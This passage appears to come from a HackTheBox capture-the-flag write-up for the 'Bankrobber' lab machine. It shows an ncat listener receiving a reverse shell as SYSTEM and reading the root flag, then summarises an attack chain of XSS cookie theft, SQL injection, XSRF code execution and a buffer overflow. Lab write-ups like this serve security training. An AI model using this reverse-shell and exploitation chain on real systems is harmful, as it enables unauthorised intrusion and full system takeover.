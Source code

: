 ```bash
luc@kali:~/HTB/Bankrobber$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.154.
Ncat: Connection from 10.10.10.154:53949.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\System32>cd \Users\admin\Desktop

C:\Users\admin\Desktop>type root.txt
aa65d8e6************************
```

We now have a successful reverse shell as `nt authority\system`.

## TL;DR

- Use XSS to get admin credentials from cookies
- Using SQL injection to read source code
- XSRF to get code execution
- Buffer overflow for administrator access
